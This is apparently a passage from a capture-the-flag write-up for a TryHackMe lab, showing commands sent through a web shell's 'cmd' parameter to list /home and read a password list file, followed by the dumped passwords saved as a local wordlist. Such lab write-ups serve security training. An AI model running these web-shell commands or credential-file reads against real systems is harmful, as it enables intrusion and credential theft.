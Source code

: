 ```tsx
CMD: ?cmd=ls+-l+%20/home/
total 8
drwxr-x--- 3 jack jack 4096 Feb 29  2020 jack
-rw-r--r-- 1 root root  408 Feb 29  2020 jacks_password_list
-rw-r--r-- 1 root root  408 Feb 29  2020 jacks_password_list
```

The final round was duplicated from the previous round → Don’t be confused about the last one

```tsx
CMD: ?cmd=cat+%20/home/jacks_password_list
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
ow5APF>6r,y4krSo
```

I copy the result and paste it into a wordlist on local machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/JackofAllTrades]
└─$ cat jacks_password_list 
*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
z@e1PmlmQ%k5sDz@
```
